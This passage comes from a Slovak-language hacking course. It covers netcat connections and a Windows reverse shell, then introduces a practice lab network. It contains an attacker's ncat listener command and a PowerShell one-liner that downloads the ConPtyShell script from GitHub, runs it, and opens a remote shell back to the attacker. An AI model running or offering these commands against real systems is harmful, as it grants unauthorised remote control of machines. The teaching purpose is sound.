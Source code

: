
Na druhej strane  sa napojíme na LISTENER a začneme mu posielať data v podobe súboru alebo textu.
``` bash
ncat IP_ADRESA PORT
```



>[!info] 
>HACKER:  Tento prístup je však limitovaný a umožňuje iba jednoduché príkazy v shell


### D.2 REVERZNÝ SHELL NA WINDOWS

Väčšina sietí ma striktne nastavenú politiku čo može do siete sby sme ju ochránili od vonkajších hrozieb. Najväčšia bezpečnostná hrozba je však vo vnútri siete, nepreškolený alebo hlúpy užívateľ prípadne priveľmi sebavedomý SYSADMIN.

Pri REVERSE SHELL nás kontaktuje PC z chránenej LAN a ponúka nám prístup k svojmu príkazovému riadku. Stačí len nastaviť kde nás má kontaktovať a vždy keď sa ozve tak nás nakontaktuje sám. Prejde cez Firewall ako legitímna komunikácia z vnútra siete.

LISTENER NA STRANE ÚTOČNÍKA
``` bash
ncat -lvnp 6868 -s IP HOST
```


REVERSE SHELL POMOCOU SKRIPTU V POWERSHELL:

>[!warning  ]
>### NEPRIATEĽ POČÚVA  !!! Tento skript je NEBEZPEČNÝ A BOL STIAHNUTÝ Z GITHUBU !!! 

[antonioCoco · GitHub] (https://github.com/antonioCoco) a je voľne šírený pod MIT licenciou.
Autor je Analytik Malware a reverzný inžinier pre Windows.

``` powershell
IEX(IWR https://raw.githubusercontent.com/antonioCoco/ConPtyShell/master/Invoke-ConPtyShell.ps1 -UseBasicParsing); Invoke-ConPtyShell IP HOST  6868
```

>[!info] 
>SYSADMIN:  V našom prípade všetko dopadlo dobre, škodlivý kód zachytil ANTIVIR a zabránil mu v poskytnutí údajov cieľovému serveru. Štandardne je tiež v ExecutionPolicy Windows, že nemá spúšťať žiadne ps1 skripty.


## F. IT SEC CLUSTER A WARGAMING

### F.1 IT SEC ONLINE VZDELAVANIE

V rámci toho kurzu som Vám ukázal množstvo vecí, ktoré by ste mali teoreticky aj prakticky ovládať ak sa chcete venovať IT SEC. Problém je, že aj keď sme si nejaké veci ukazovali na mojej cvičnej sieti v tzv. HACKLABE či už na virtuálnych zariadeniach, alebo na skutočných, **praktické schopnosti získate iba sami**. Aby sme Vám túto cestu uľahčili vytvorili sme pre Vás sieť do ktorej sa budete pripájať a skúšať si rôzne ITSEC a hackerské nástroje cez Linux Shell.

Vnútorná sieť je oddelená od internetu a preto sa na ňu dá napojiť pomocou BRIDGU z internetu prostredníctvom SSH pripojenia.
